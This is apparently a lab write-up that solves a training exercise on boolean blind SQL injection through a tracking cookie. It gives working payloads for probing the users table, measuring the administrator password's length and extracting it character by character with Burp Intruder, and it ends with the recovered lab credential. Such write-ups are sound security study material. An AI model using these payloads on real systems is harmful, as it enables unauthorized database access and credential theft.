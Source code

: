 # Description
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a `Welcome back` message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.
# Solution
| DB         | Description                 |
| ---------- | --------------------------- |
| Oracle     | `SUBSTR('foobar', 4, 2)`    |
| Microsoft  | `SUBSTRING('foobar', 4, 2)` |
| PostgreSQL | `SUBSTRING('foobar', 4, 2)` |
| MySQL      | `SUBSTRING('foobar', 4, 2)` |
- Firstly, test whether if the application accepts cookie containing boolean.
```
Cookie: TrackingId=vi5OC8lBPKpjDTcP' AND 1=1--
```
=> True -> get response with the addition of "Welcome Back!" string (Content-Length: 5336),

```
Cookie: TrackingId=vi5OC8lBPKpjDTcP' AND 1=2--
```
=> False -> get response with the absense of "Welcome Back!" string (Content-Length: 5305)

```ad-summary
Now confirm that it is the **Boolean Blind-SQLi**.
```

- The database contains a table named `users` as the description gave above:
```
Cookie: TrackingId=JzNZwH5rrvjvtiJ' AND (SELECT 'a' FROM users LIMIT 1)='a
```
=> Get "Welcome Back!" response -> confirm we have users table.

- The description asks about the password of **administrator**:
```
Cookie: TrackingId=JzNZwH5rrvjvtiJ6' AND (SELECT 'a' FROM users where username == 'administrator')='a
```
=> Verify the **administrator** user has existed.

- To determine the password, we must know the length of string:
```
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>$1$)='a
```

- Using **Intruder** to find the length by **Numbers** payload type => Trying all number one by one.

![](../../Image/Pasted%20image%2020250515202725.png)

- 

![](../../Image/Pasted%20image%2020250515201207.png)

=> The length of password = 20.

- Using **Intruder** to find the string by **Cluster Bomb** attack type => Trying **bruteforcer** payload type
```
' AND (SELECT SUBSTRING(password,$1$,1) FROM users WHERE username = 'administrator') = '$s$
```

- **Payload 1:**

![](../../Image/Pasted%20image%2020250515205812.png)

- **Payload 2:**

![](../../Image/Pasted%20image%2020250515205846.png)

- **The result of Intruder:**

![](../../Image/Pasted%20image%2020250515211809.png)

=> administrator:eiy2h7phe24ti6yj8v9e